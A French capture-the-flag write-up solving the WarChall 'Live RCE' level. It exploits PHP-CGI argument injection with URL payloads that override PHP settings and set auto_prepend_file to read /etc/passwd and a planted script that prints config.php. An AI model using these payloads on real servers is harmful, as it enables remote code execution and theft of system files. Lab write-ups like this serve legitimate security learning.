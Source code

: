 # Live - RCE
"Live RCE" fait référence à une "Remote Code Execution" (exécution de code à distance) en direct

## Objectif

Imprime le contenu de `/home/level/20_live_rce/config.php` 

## Solution du Challenge et Vulnérabilité

La première chose utile que j'ai faite a été de tomber sur une vulnérabilité PHP-CGI sur Google. J'ai rapidement découvert qu'une bonne façon de tester cette vulnérabilité était d'utiliser :

```
http://rce.warchall.net/?-s
```

et de vérifier si le code source est affiché. C'était le cas ! Maintenant, je sais que je dois voir ce qu'il y a dans `/home/level/20_live_rce/config.php`. Maintenant, je savais sur quoi chercher sur Google. Après un certain temps, j'ai trouvé ce vecteur d'attaque. Il est censé me permettre d'inclure un fichier à distance ou local. En faisant :

```
https://rce.warchall.net/index.php?-dsafe_mode=Off+-ddisable_functions=NULL+-dallow_url_fopen=On+-dallow_url_include=On+-dauto_prepend_file=http:://google.com/robots.txt
```

cela n'a pas fonctionné, mais ceci a marché :

```
https://rce.warchall.net/index.php?-dsafe_mode%3dOff+-ddisable_functions%3dNULL+-dallow_url_fopen%3dOn+-dallow_url_include%3dOn+-dauto_prepend_file%3d/etc/passwd
```

Ensuite, je savais que j'avais accès à SSH et je pouvais mettre un script PHP de base dans un fichier à :

>`
/var/tmp/rce.txt
`

Code PHP basique pour /var/tmp/s.txt :

```php
<?php
echo file_get_contents("/home/level/20_live_rce/config.php");
```

Ensuite, je savais que je devais exécuter :

```
https://rce.warchall.net/index.php?-dsafe_mode%3dOff+-ddisable_functions%3dNULL+-dallow_url_fopen%3dOn+-dallow_url_include%3dOn+-dauto_prepend_file%3d/var/tmp/rce.txt
```

À première vue, cela n'a pas fonctionné. Rien d'autre que le contenu de index.php n'était affiché dans le navigateur. Puis, je me suis souvenu que si cela réussissait, cela imprimerait quelque chose comme :

```php
<?php
// whatever
?>
```

>Cela ne peut être vu que si vous affichez le code source. Bingo. C'était là


J'ai testé le mot que j'ai vu dans le code source comme le drapeau et il a dit que le défi était résolu.

